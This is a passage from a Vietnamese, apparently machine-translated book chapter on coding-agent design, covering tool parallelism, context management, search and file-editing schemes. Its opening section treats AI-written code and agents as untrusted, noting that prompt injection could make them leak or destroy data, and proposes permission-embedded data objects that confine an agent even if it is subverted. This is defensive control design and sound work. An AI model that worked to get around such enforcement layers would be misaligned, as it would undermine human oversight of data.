[^ch5-1]: Để biết thông tin đánh giá đầy đủ về phạm vi và mã mức độ trung thành này, hãy xem Li, Bojie và Noah Shi. *Agent của bạn đứng về phía ai? 2026.

**Khi mã do chính AI viết không đáng tin cậy: hãy di chuyển ranh giới tin cậy xuống dưới.**

(Đoạn này là phần mở rộng của cuộc thảo luận về lòng trung thành ở đoạn trước - chuyển các ràng buộc từ "hy vọng Agent nhận thức được" xuống lớp dữ liệu để thực thi, lớp này cũng thiên về bảo mật chung của Agent và khả năng đọc tùy chọn.) Mã trung thành trước đó khiến Agent **có nhiều khả năng** tuân thủ các quy tắc hơn, nhưng "nhiều khả năng" là không đủ cho các hoạt động dữ liệu có rủi ro cao. Nếu bạn đẩy lùi sự bất mãn này, bạn sẽ có được quan điểm kỹ lưỡng hơn [^ch5-2]. Trong ba mươi năm qua, ranh giới toàn vẹn của phần mềm là ở lớp ứng dụng - mã xử lý xác định ai có thể vận hành, giá trị nào là hợp pháp và chuyển đổi trạng thái nào được phép và cơ sở dữ liệu tin cậy vô điều kiện những gì được viết trong các mã này. Tiền đề của sự sắp xếp này là mã trên ranh giới được viết, xem xét, vận hành và duy trì bởi **những người có trách nhiệm**. AI phá vỡ tiền đề này hai lần: thứ nhất, trình xử lý do LLM tạo ra thường bỏ lỡ các quyền và kiểm tra tính toàn vẹn mà tác giả con người sẽ âm thầm thực hiện trong các chức năng; thứ hai, Agent độc lập tấn công trực tiếp vào dữ liệu sản xuất và việc tiêm hoặc ảo giác kịp thời có thể phá hủy hoặc rò rỉ mọi thứ mà thông tin xác thực của nó có thể chạm vào.

Phản ứng phổ biến là tăng cường lớp không đáng tin cậy - sử dụng các nguyên tắc hiến pháp để hướng dẫn việc tạo, sử dụng kẻ nói dối để kiểm tra cấu trúc và sử dụng hợp đồng để giám sát hành động của Agent. Tất cả đều làm cho mã do AI viết "có nhiều khả năng" tuân thủ các quy tắc hơn, nhưng chúng không thay đổi **lớp nào được tin cậy**. Một cách tiếp cận triệt để hơn là làm điều ngược lại: chỉ cần coi lớp ứng dụng là không đáng tin cậy và nhấn chìm việc thực thi các bất biến dữ liệu bên dưới nó (có thể được gọi là đối tượng dữ liệu được nhúng quyền, Đối tượng dữ liệu Permission-Embedded). Mỗi thực thể dữ liệu đi kèm với các quy tắc cấp phép khai báo, trình xác thực và câu lệnh hệ quả trong một lược đồ do con người kiểm tra và một quy trình thời gian chạy ba cấp sẽ thực thi chúng trên mỗi lần ghi. Khóa là một nguyên thủy thống nhất - ngữ cảnh truy cập được gắn với mỗi thao tác: trình xử lý được tạo lại chạy với quyền của người dùng mà nó phục vụ và Agent tự trị chạy với danh tính hạn chế của riêng nó (chính trong phạm vi) - điều này chỉ tiếp tục chủ đề trước đó về "lòng trung thành": thay vì chỉ hy vọng Agent Về mặt lòng trung thành, tốt hơn là nên giảm nó thành một chủ thể có quyền hạn hạn chế về mặt cấu trúc, để ngay cả khi nó bị xúi giục nổi loạn thì không thể vượt qua được ngưỡng cửa.

Chi phí và lợi ích của việc làm này rất rõ ràng. So sánh cơ chế này với một số giải pháp chính thống trên cùng một loạt lời nhắc, nó có thể đạt được **không có thao tác ghi nào vi phạm các bất biến đã khai báo**(số 0 sạch); và theo cùng một lời nhắc, các bước kiểm tra tự viết, lời nhắc hiến pháp và các biện pháp ngăn chặn ranh giới hành động của SQL và LLM trần trụi sẽ bỏ sót từ một số đến hàng chục hành vi vi phạm. Số "0" này chính xác là những gì cơ chế cấu trúc sẽ cung cấp - nó không phải là "có nhiều khả năng đúng hơn", mà là "không có khả năng sai", với chi phí chỉ mất thêm khoảng 2 mili giây cho mỗi lần ghi trong đường ống. Tất nhiên, sự đảm bảo này có điều kiện: lược đồ phải thực sự ghi tất cả các bất biến mong muốn và quá trình triển khai phải chặn tất cả các đường dẫn để lớp không tin cậy bỏ qua bộ nhớ và kết nối trực tiếp với cơ sở dữ liệu (đạt được bằng cách cách ly quy trình, mạng sidecar hoặc xử lý khả năng). Đối với Coding Agent, điều này đưa ra một nguyên tắc kiến trúc quan trọng: **Khi cả người viết mã và người chạy mã đều có thể không đáng tin cậy, thì các ràng buộc thực sự đáng tin cậy không thể nằm trong mã được tạo mà phải nằm trong nền tảng được con người xem xét bên dưới mã đó** - Đây cũng là dạng cuối cùng của nguyên tắc "ràng buộc đi trước hướng dẫn" trong lớp dữ liệu ở Chương 1.

[^ch5-2]: Để thiết kế và đánh giá việc "chuyển ranh giới tin cậy xuống lớp ứng dụng" này (bao gồm so sánh đầy đủ về số lượng vi phạm của từng sơ đồ), hãy xem Li, Bojie. *Lớp ứng dụng không còn đáng tin cậy nữa: Thực thi các bất biến dữ liệu bên dưới mã AI-Written và AI Agents.* 2026 (sẽ được xuất bản).

### Kỹ năng triển khai Coding Agent

Quy trình làm việc ở trên là lý tưởng. Để làm cho nó thực sự chạy được trong thực tế, cần có một số kỹ thuật triển khai cụ thể - để tăng tốc độ phản hồi và giảm mức tiêu thụ ngữ cảnh trong khi vẫn đảm bảo chất lượng tư duy. Chúng là những ứng công cụ thể của công nghệ Agent chung được thảo luận trong Chương 2 và 4 trong lĩnh vực lập trình.

**Lệnh gọi công cụ song song, thực thi phát trực tuyến và hủy bỏ xếp tầng.**

Việc triển khai Agent truyền thống thường sử dụng chế độ nối tiếp: tạo lệnh gọi công cụ, thực thi nó, nhận kết quả và sau đó quyết định bước tiếp theo. Việc xếp hàng chờ đợi nghiêm ngặt này làm lãng phí rất nhiều thời gian.

Coding Agent hiện đại nên tận dụng tối đa các phản hồi phát trực tuyến: Chương 2 đã giới thiệu cơ chế này khi thảo luận về trình tự đầu ra của mô hình - ngay sau khi các tham số của lệnh gọi công cụ đầu tiên được tạo và xác minh hoàn toàn, quá trình thực thi có thể bắt đầu ngay lập tức mà không cần đợi mô hình được tạo cho các lệnh gọi công cụ tiếp theo. Ví dụ: trong một lần suy luận, mô hình cần liên tục xuất ra ba lệnh gọi công cụ: mã tìm kiếm, kiểm tra tệp cấu hình và đọc nhật ký. Cuộc gọi đầu tiên có thể được bắt đầu ngay sau khi các tham số của cuộc gọi đầu tiên được xác minh hoàn toàn và trùng lặp với quá trình tạo của hai cuộc gọi cuối cùng; các cuộc gọi độc lập cũng có thể được thực hiện song song thay vì phải xếp hàng đợi. Việc thực thi chồng chéo này làm giảm đáng kể độ trễ từ đầu đến cuối, giúp Agent phản hồi nhanh hơn.

Mặt khác của việc thực thi song song là xử lý lỗi. Mỗi định nghĩa công cụ phải khai báo liệu nó có hỗ trợ thực thi đồng thời hay không (mặc định là không, an toàn khi xảy ra lỗi); khi một cuộc gọi không thành công, các cuộc gọi khác bắt đầu song song trong cùng một đợt và phụ thuộc vào kết quả sẽ bị chấm dứt thông qua cơ chế hủy bỏ xếp tầng, nhưng các cuộc gọi độc lập và hoạt động chính không bị ảnh hưởng - đây là cách triển khai cụ thể của nguyên tắc "kiểm soát ranh giới lỗi" theo quan điểm của Harness trong phần trước.

**Quản lý ngữ cảnh tinh tế.**

Thách thức cơ bản mà Coding Agent phải đối mặt là cơ sở mã thường lớn nhưng cửa sổ ngữ cảnh mô hình bị hạn chế. Ngay cả khi mô hình nâng cao tuyên bố hỗ trợ hàng triệu mã thông báo, việc đưa toàn bộ cơ sở mã vào ngữ cảnh là không kinh tế và cũng không cần thiết. Quản lý ngữ cảnh thông minh cần được thực hiện ở nhiều cấp độ.

Ở cấp độ đọc tệp, Agent không phải lúc nào cũng đọc toàn bộ nội dung của tệp. Đối với các tệp lớn, các công cụ nên hỗ trợ đọc các phân đoạn cụ thể theo phạm vi số dòng - chẳng hạn như chỉ đọc các dòng từ 100 đến 150, thay vì tải toàn bộ tệp có hàng nghìn dòng. Quan trọng hơn, nội dung được trả về kèm theo số dòng - mỗi dòng mã có tiền tố là số dòng thực tế. Thiết kế tưởng chừng như đơn giản này lại mang lại giá trị to lớn: mô hình có thể tham chiếu chính xác "ở dòng 42 của `src/main.py`", giảm sự mơ hồ và giúp các thao tác chỉnh sửa tiếp theo trở nên đáng tin cậy hơn.

Ở cấp độ thực thi lệnh, đầu ra của thiết bị đầu cuối cũng cần được xử lý một cách thận trọng. Quá trình biên dịch hoặc thử nghiệm có thể tạo ra hàng nghìn dòng đầu ra, điều này có thể nhanh chóng tiêu tốn ngân sách nếu tất cả ngữ cảnh được đưa vào. Cơ chế cắt ngắn và duy trì đầu ra dài được giới thiệu trong Chương 4 được sử dụng rộng rãi ở đây: một vài dòng đầu tiên của đầu ra (thường chứa ngữ cảnh lỗi) và một vài dòng cuối cùng (thường chứa tóm tắt lỗi) được giữ lại, thay thế bằng dấu nhắc một dòng ở giữa và cho biết rằng đầu ra hoàn chỉnh đã được lưu vào một tệp tạm thời để xem theo yêu cầu.

**Tăng động thông tin môi trường.**

Đây là biểu thức tập trung của công nghệ thanh trạng thái Agent được giới thiệu ở Chương 2 trong Coding Agent. Không giống như Agent chung, Coding Agent phụ thuộc nhiều vào trạng thái của môi trường thực thi. Thông tin môi trường quan trọng sau đây phải được đưa vào cuối ngữ cảnh dưới dạng thanh trạng thái Agent trước mỗi lần suy luận:

- **Thư mục làm việc hiện tại**: Đảm bảo rằng các tham chiếu đường dẫn không bị sai
- **nhánh git**: biết bạn đang làm việc trên nhánh chính hay nhánh tính năng
- **Hồ sơ cam kết gần đây**: Hiểu rõ diễn biến của dự án
- **Tổng quan về các thay đổi chưa được phân đoạn và theo giai đoạn**: Biết những thay đổi nào đã được thực hiện

Thông tin này không được mã hóa cứng trong system prompt tĩnh - điều này sẽ làm giảm hiệu quả của KV Cache - mà phải được tạo và đưa vào trong thời gian thực dưới dạng thanh trạng thái Agent động, kiểu nối thêm. Bằng cách này, Agent có được khả năng “nhận thức ngữ cảnh”, với mọi quyết định đều dựa trên hiểu biết chính xác về trạng thái hiện tại thay vì các giả định lỗi thời.

**Trạng thái tồn tại lâu dài của môi trường thực thi lệnh.**

Khi tương tác với mã, nhiều thao tác phụ thuộc vào trạng thái của môi trường: chuyển đổi thư mục, kích hoạt môi trường ảo, đặt biến môi trường và khởi động các dịch vụ nền. Nếu mỗi lệnh được thực thi trong một shell mới, các trạng thái này sẽ bị mất - Agent vừa sử dụng `cd` để chuyển sang thư mục dự án và lệnh tiếp theo sẽ quay trở lại thư mục gốc và các cài đặt tương tự phải được thực hiện nhiều lần. Tệ hơn nữa, tác động của một số thao tác (chẳng hạn như kích hoạt môi trường ảo Python) chỉ có hiệu lực trong phiên shell hiện tại và không thể chuyển qua các phiên.

Do đó, phiên cuối liên tục phải được duy trì, được tạo khi Agent được khởi động và duy trì hoạt động trong suốt quá trình tương tác. Mỗi lệnh được thực thi trong thiết bị đầu cuối dùng chung này, bảo toàn thư mục làm việc, các biến môi trường và trạng thái phiên. Thiết kế này phù hợp hơn với thói quen làm việc của các nhà phát triển con người - chúng tôi thường làm việc trong một cửa sổ đầu cuối chạy dài. Tất nhiên, Agent cũng phải giữ lại khả năng khởi chạy các thiết bị đầu cuối biệt lập để hỗ trợ các tác vụ song song, nhưng các phiên liên tục phải là chế độ mặc định.

**Cơ chế phản hồi ngữ pháp tức thì.**

Điều này một lần nữa chứng tỏ giá trị của công nghệ thanh trạng thái Agent. Agent Sau khi sửa đổi mã, bạn không nên đợi cho đến khi người dùng yêu cầu kiểm tra một cách rõ ràng trước khi kiểm tra cú pháp. Một cách tiếp cận hiệu quả hơn là: ngay sau khi hoàn tất thao tác ghi tệp, lớp công cụ sẽ tự động chạy trình kiểm tra cú pháp hoặc kẻ nói dối tương ứng và hiển thị kết quả kiểm tra cho Agent như một phần của giá trị trả về của công cụ. Nếu phát hiện lỗi cú pháp, Agent sẽ thấy ngay thông tin lỗi chi tiết ở vòng suy luận tiếp theo - giống như khi lập trình viên gõ sai dấu ngoặc đơn trong IDE, trình soạn thảo lập tức vẽ một đường màu đỏ để nhắc nhở. Cơ chế phản hồi tức thời này giúp giảm đáng kể chi phí sửa lỗi vì Agent có thể sửa lỗi ngay khi chúng được đưa ra, thay vì phải đợi cho đến khi chạy thử nghiệm để phát hiện ra vấn đề.

Năm kỹ thuật triển khai này—song song và phát trực tuyến, quản lý ngữ cảnh, nhận thức về môi trường, duy trì trạng thái và phản hồi tức thời—cùng nhau tạo thành nền tảng kỹ thuật cho Coding Agent hiệu quả. Chúng không phải là các điểm tối ưu hóa riêng biệt mà là các quyết định thiết kế phối hợp với nhau để đạt được một mục tiêu: giúp Agent hoạt động trơn tru như một nhà phát triển có kinh nghiệm.

### Công cụ tìm kiếm trong Coding Agent

Xác định vị trí mã có liên quan trong cơ sở mã rộng lớn là nơi công việc của Coding Agent bắt đầu. Hình 5-3 so sánh một số loại công cụ tìm kiếm bổ sung, minh họa mức độ trưởng thành của Coding Agent nên chọn phương pháp tìm kiếm dựa trên tính chất của nhiệm vụ.




**Khớp nội dung biểu thức chính quy**(grep/ripgrep): Phương pháp tìm kiếm truyền thống nhất, quét nội dung tệp theo từng dòng để khớp mẫu. Khi Agent biết văn bản cụ thể cần tìm (tên hàm, tên biến, thông báo lỗi), nó có thể xác định vị trí nhanh chóng và chính xác tất cả các lần xuất hiện. Sức mạnh biểu đạt mạnh mẽ của biểu thức thông thường (cú pháp sử dụng các ký hiệu đặc biệt để mô tả mẫu văn bản, chẳng hạn như `def handle.*` phù hợp với tất cả các định nghĩa hàm bắt đầu bằng `handle`) có thể nắm bắt các mẫu phức tạp và không chỉ tìm kiếm văn bản bằng chữ mà còn tìm kiếm các đoạn mã phù hợp với cấu trúc cụ thể. Trong sử dụng thực tế, tính năng lọc loại tệp (chỉ tìm kiếm tệp Python) và lọc mẫu đường dẫn (không bao gồm thư mục kiểm tra) cũng cần được hỗ trợ để giảm nhiễu. Hạn chế cơ bản là nó chỉ có thể tìm thấy nội dung phù hợp trong văn bản và không thể hiểu ngữ nghĩa - khi tìm kiếm "xác thực người dùng", bạn không thể tìm thấy hàm xử lý logic đăng nhập mặc dù không có từ "xác thực".

**Khớp mẫu tên tệp**(toàn cầu): Không xem nội dung tệp, chỉ tìm kiếm các tệp khớp với mẫu trong cấu trúc đường dẫn của hệ thống tệp. Ví dụ: ` **/*.test.ts` tìm thấy tất cả các tệp kiểm tra TypeScript theo cách đệ quy và `src/components/**/Button.tsx` tìm kiếm Button.tsx ở bất kỳ độ sâu nào trong các thành phần. Nhanh hơn nhiều so với tìm kiếm nội dung (không cần mở và đọc tệp), Agent là bước đầu tiên trong việc khám phá cấu trúc của một dự án - thiết lập khuôn khổ tổ chức của dự án bằng cách quét nhanh toàn bộ hệ thống tệp.

**Tìm kiếm mã ngữ nghĩa**: Không giống như hai phương pháp đối sánh chính xác đầu tiên, cố gắng hiểu "ý nghĩa" của truy vấn và mã. Hai vấn đề chính cần được giải quyết:

- **Phân đoạn nhận biết cấu trúc**: Mã có cấu trúc ngữ pháp nghiêm ngặt và phải được phân đoạn theo các đơn vị ngữ nghĩa hoàn chỉnh như hàm, lớp và phương thức, thay vì phân đoạn một cách mù quáng theo một số ký tự cố định.
- **Truy xuất kết hợp**(Chương 3 giới thiệu chi tiết về ngăn xếp công nghệ này): Nhúng vectơ (nhúng dày đặc) rất tốt trong việc tìm các mã có ngữ nghĩa tương tự nhưng các từ khác nhau (ví dụ: tìm kiếm "xác minh danh tính người dùng" có thể tìm thấy hàm có tên `check_credentials`), khớp từ khóa (BM25, một thuật toán truy xuất cổ điển dựa trên tần suất từ và độ dài tài liệu) rất tốt trong việc khớp chính xác tên hàm và tên biến. Sau khi cả hai được thực hiện song song, chúng được hợp nhất và sắp xếp thông qua mô hình sắp xếp lại (reranker, sử dụng bộ mã hóa chéo để thực hiện xếp hạng tương quan tinh tế của các kết quả ứng viên) để đạt được mức độ bao phủ bổ sung.

Tìm kiếm ngữ nghĩa đặc biệt phù hợp với các tác vụ khám phá, chẳng hạn như tìm kiếm mã liên quan đến "tương tác với cơ sở dữ liệu" hoặc "xử lý xác thực đầu vào của người dùng" trong cơ sở mã không quen thuộc.

Tuy nhiên, có một cuộc tranh luận rõ ràng trong ngành về việc liệu có đáng để xây dựng các chỉ mục nhúng cho tìm kiếm ngữ nghĩa hay không. Loại thiết bị đầu cuối Agent, được biểu thị bằng Claude Code, cố tình không xây dựng chỉ mục nhúng và chỉ dựa vào truy xuất tại chỗ theo tác nhân grep + glob - theo cách này, không cần phải duy trì một chỉ mục trở nên lỗi thời khi mã phát triển và một bộ cơ sở hạ tầng chỉ mục hoàn chỉnh bị loại bỏ, đồng thời tránh nguy cơ nhúng mã được gia công cho các dịch vụ của bên thứ ba. Các công cụ loại IDE như Cursor đi theo con đường ngược lại: chúng sẵn sàng trả chi phí lập chỉ mục cho **thu hồi ngữ nghĩa giữa các tệp** và dựa vào các chỉ mục được nhúng để nhanh chóng tìm thấy các đoạn có liên quan về mặt ngữ nghĩa nhưng được diễn đạt khác nhau trong các cơ sở mã lớn. Sự lựa chọn giữa hai tuyến đường về cơ bản là sự đánh đổi giữa "chi phí cơ sở hạ tầng và dữ liệu gửi đi" và "lợi ích của việc thu hồi ngữ nghĩa giữa các tệp".

**Định nghĩa cấp độ biểu tượng và tìm kiếm tham chiếu**: Dựa trên khả năng "chuyển đến định nghĩa" và "tìm tất cả tài liệu tham khảo" của IDE (LSP, Giao thức máy chủ ngôn ngữ - một giao thức chuẩn cho phép trình soạn thảo giao tiếp với công cụ phân tích ngôn ngữ), nó có thể phân biệt giữa các định nghĩa và cách gọi của các ký hiệu có cùng tên - ví dụ: nó biết rằng `authenticate` là một định nghĩa hàm trên dòng 42 và lệnh gọi trên dòng 189, trong khi tìm kiếm văn bản chỉ có thể tìm thấy tất cả các dòng chứa điều này chuỗi. Điều này đặc biệt quan trọng đối với việc tái cấu trúc mã - khi đổi tên một hàm, bạn không thể chỉ dựa vào tìm kiếm văn bản (tên hàm có thể xuất hiện trong nhận xét hoặc chuỗi), bạn phải sử dụng tìm kiếm ký hiệu để xác định định nghĩa và tất cả các trang gọi thực.

Bốn phương pháp tìm kiếm này tạo thành một hộp công cụ bổ sung và thường được sử dụng kết hợp trong thực tế: đầu tiên sử dụng tìm kiếm ngữ nghĩa để tìm các mô-đun có liên quan, sau đó sử dụng kết hợp thông thường để định vị chính xác các dòng mã cụ thể và cuối cùng sử dụng tìm kiếm ký hiệu để theo dõi chuỗi cuộc gọi - một chiến lược lũy tiến "từ thô đến tinh, từ ngữ nghĩa đến cú pháp".

### Công cụ chỉnh sửa file trong Coding Agent

Khó khăn của việc chỉnh sửa tệp không phải ở bản thân thao tác mà là làm thế nào để LLM thông báo cho hệ thống "thay đổi ở đâu và thay đổi như thế nào" một cách hiệu quả và đáng tin cậy. Hình 5-4 so sánh năm sơ đồ chỉnh sửa tệp, thể hiện sự căng thẳng cơ bản giữa biểu hiện ngôn ngữ của con người và việc thực thi chính xác của máy.




**Mô tả sự khác biệt + Áp dụng mô hình**: Mô hình không trực tiếp chỉ định cách chỉnh sửa tệp mà tạo ra một mô tả thay đổi - nó có thể là một văn bản khác biệt tương tự như git diff (nghĩa là định dạng "dòng nào đã bị xóa và dòng nào đã được thêm" xuất ra bằng lệnh `git diff`) hoặc nó có thể là một khung mã có dấu ba chấm (bỏ qua các phần chưa sửa đổi với các nhận xét như "không thay đổi ở đây"). Sau đó, mô tả này được chuyển giao cho một "Mô hình áp dụng" chuyên dụng — thường là một LLM nhỏ hơn, nhanh hơn — chịu trách nhiệm hợp nhất nó với tệp gốc và tạo ra một tệp mới hoàn chỉnh. Thiết kế tách biệt các mối quan tâm này cho phép mô hình chính tập trung vào logic mã cấp cao và mô hình ứng dụng tập trung vào các hoạt động văn bản cấp thấp. Điểm yếu của việc triển khai ngây thơ nằm ở quá trình hợp nhất: khi có một chút khác biệt giữa mô tả thay đổi và mã thực tế của tệp, cần phải xác định xem nó có ở cùng một vị trí hay không. Khi có nhiều đoạn mã giống nhau có thể bị gộp vào sai vị trí. Cursor là đại diện cho sự phát triển liên tục của tuyến đường này: mô hình chính xuất ra khung mã có dấu thiếu sót và mô hình nhỏ fast-apply được đào tạo đặc biệt viết lại tệp hoàn chỉnh và sử dụng giải mã suy đoán (xác minh song song bằng cách sử dụng nội dung tệp gốc làm bản nháp) để đạt được tốc độ hợp nhất hàng nghìn mã thông báo mỗi giây - đầu tư kỹ thuật được đổi lấy độ tin cậy và tốc độ của tuyến đường này.

**Chuỗi cũ thành chuỗi mới**(Chuỗi cũ → Chuỗi mới): Lược đồ được áp dụng bởi Claude Code. Mô hình cung cấp chuỗi cũ (văn bản gốc sẽ được thay thế) và chuỗi mới (văn bản mới sau khi thay thế) và khung thực hiện tìm kiếm và thay thế chuỗi đơn giản. Ưu điểm là khả năng dự đoán và tính minh bạch - chuỗi cũ thành công nếu nó tồn tại và là duy nhất trong tệp, nếu không thì không thành công, không có sự mơ hồ. Cái giá là khi xóa một đoạn mã lớn, tất cả nội dung gốc cần phải được xuất ra hoàn toàn, sai lệch một ký tự sẽ khiến việc khớp không thành công; khi cùng một mã xuất hiện nhiều lần, cần cung cấp ngữ cảnh dài hơn để loại bỏ sự mơ hồ.

**Định vị số dòng**(Số dòng cũ → Chuỗi mới): Mô hình chỉ định "Xóa các hàng X đến Y và chèn nội dung mới". Số dòng chính xác và rõ ràng và chỉ cần hai số để xóa các phần lớn. Tuy nhiên, mô hình "đếm" số dòng dễ mắc lỗi, đặc biệt khi tệp rất dài. Trong thực tế, số dòng thường được thêm vào mỗi dòng khi đọc tệp để giảm bớt vấn đề. Tuy nhiên, số dòng tiếp theo sẽ thay đổi sau mỗi lần chỉnh sửa, điều này hạn chế tính song song của nhiều lần chỉnh sửa.

**Các lệnh chỉnh sửa giống Vim**: Dựa trên hệ thống lệnh của trình soạn thảo Vim, nó hỗ trợ các thao tác phong phú như sao chép, cắt và dán. Rất hiệu quả trong việc sắp xếp lại mã (di chuyển các chức năng từ nơi này sang nơi khác). Tuy nhiên, gánh nặng học tập cú pháp lệnh là tương đối lớn. Mô hình mạnh nhất có thể được sử dụng tốt hơn nhưng tỷ lệ lỗi của các mô hình nhỏ hơn sẽ tăng lên đáng kể.

**Khớp đầu và đuôi chuỗi**(Chuỗi cũ Bắt đầu + Kết thúc → Chuỗi mới): có thể được coi là sự cải tiến của sơ đồ thay thế chuỗi cũ. Mô hình không cần xuất ra chuỗi cũ hoàn chỉnh. Nó chỉ cần cung cấp vài dòng đầu và vài dòng cuối của nội dung cần xóa, phần giữa có thể bỏ qua. Khung định vị vùng thay thế bằng cách khớp phần đầu và phần cuối này, miễn là cặp kết hợp "đầu và đuôi" này là duy nhất trong tệp thì nó có thể được định vị chính xác. Lược đồ này kết hợp độ tin cậy của việc thay thế văn bản với hiệu quả của lược đồ đánh số dòng - không cần xuất ra hàng trăm dòng mã gốc khi xử lý việc xóa các phần mã lớn, chỉ cần hiển thị các ranh giới. Đồng thời, do vẫn dựa trên việc khớp nội dung chứ không dựa trên số dòng trừu tượng nên nguy cơ xảy ra lỗi mô hình là tương đối thấp.

**Gợi ý thực tế**. Kết hợp lại với nhau, Coding Agent chính thống có hai tuyến: Claude Code áp dụng sơ đồ "chuỗi cũ thành chuỗi mới" - độ tin cậy được ưu tiên, việc triển khai đơn giản và không cần mô hình bổ sung; Cursor đưa lộ trình Áp dụng Mô hình lên một tầm cao mới - đầu tư vào quá trình đào tạo và suy luận của mô hình fast-apply chuyên dụng để đổi lấy thông lượng chỉnh sửa cao hơn. Đối với Agent tự xây dựng, "chuỗi cũ sang chuỗi mới" là điểm khởi đầu an toàn nhất; "khớp phần cuối của chuỗi" là một sự thỏa hiệp kinh tế hơn khi xử lý những thay đổi lớn; lược đồ đánh số dòng chỉ đáng tin cậy trong các trường hợp IDE được tích hợp sâu (trình soạn thảo duy trì ánh xạ số dòng trong thời gian thực và có thể cung cấp lại mô hình ngay sau mỗi lần chỉnh sửa), nếu không thì rất dễ bị lỗi do lệch số dòng.

## Code: Meta-ability của generic Agent

Phần trước đã trình bày cách xây dựng Coding Agent đáng tin cậy - từ thiết kế kiến trúc đến triển khai công cụ cho đến kỹ thuật Harness. Nhưng giá trị của việc tạo mã còn vượt xa việc viết chương trình.

> **"siêu năng lực" là gì?** Khả năng chung là Agent có thể thực hiện một việc cụ thể - trả lời một câu hỏi, gọi một API nhất định và tạo một đoạn văn bản. **Siêu khả năng**(meta-capability) là một khả năng "có thể tạo ra các khả năng khác": Agent sử dụng nó để viết các công cụ mới, các ràng buộc mới và các hình thức biểu đạt mới ngay tại chỗ để hoàn thành nhiệm vụ mà không cần phải tạo trước tất cả các khả năng. Việc tạo mã chính xác là một siêu khả năng như vậy - nó chính xác, có thể thực thi và có thể tổng hợp nên nó có thể tạo ra các công cụ mới (tập lệnh, chuỗi lệnh gọi API), các ràng buộc mới (xác nhận, quy tắc xác minh) và các biểu mẫu biểu thức mới (biểu mẫu HTML, PPT, khung video).

Do đó, vai trò của mã trong hệ thống Agent vượt xa việc "viết chương trình". Sáu phần tiếp theo trình bày sáu hướng mà siêu khả năng này có thể được sử dụng bên ngoài lập trình: (1) Công cụ tư duy - sử dụng mã để thay thế ngôn ngữ tự nhiên cho lý luận chặt chẽ; (2) Các ràng buộc về quy tắc kinh doanh - sử dụng mã để củng cố các chính sách nhằm tránh ảo tưởng về mô hình; (3) Tạo đa phương tiện - sử dụng mã để tạo PPT/video/hình ảnh hóa; (4) Bộ điều hợp hệ thống - sử dụng mã để kết nối API không đồng nhất; (5) Giao diện người dùng sáng tạo - sử dụng mã để tạo động các biểu mẫu và giao diện; (6) Bootstrapping - Tạo Agent mới bằng mã.

Sáu hướng này không được liệt kê song song mà được tổ chức từ trong ra ngoài theo “đối tượng của siêu năng lực”:

1. **Tự suy nghĩ**—Thay thế lý luận ngôn ngữ tự nhiên dễ mắc lỗi (công cụ tư duy) bằng mã;
2. **Quy tắc kinh doanh** - Mã hóa các chính sách mơ hồ thành các ràng buộc có thể thực thi được (ràng buộc quy tắc kinh doanh);
3. **Trình bày nội dung** - Tạo các sản phẩm PPT, video và trực quan hóa (tạo đa phương tiện);
4. **Giao diện hệ thống** - cầu nối API không đồng nhất, tự động thích ứng với sự phát triển định dạng dữ liệu (bộ điều hợp hệ thống);
5. **Giao diện người dùng** - Tự động xây dựng các biểu mẫu và giao diện tương tác (giao diện người dùng tổng quát);
6. **Bản thân Agent** - Sử dụng mã để tạo Agent mới để tạo thành bootstrap (khác với kiểu "tự tiến hóa" của Chương 8 là không thay đổi trọng số).

Đọc theo dòng "từ trong ra ngoài và cuối cùng trở về chính mình", người ta có thể thấy rõ hơn giá trị thống nhất của mã như một siêu khả năng. Tạo các công cụ mới theo yêu cầu là một phần mở rộng hơn nữa của siêu khả năng này, như sẽ thấy trong Chương 8.

### Code như một công cụ tư duy

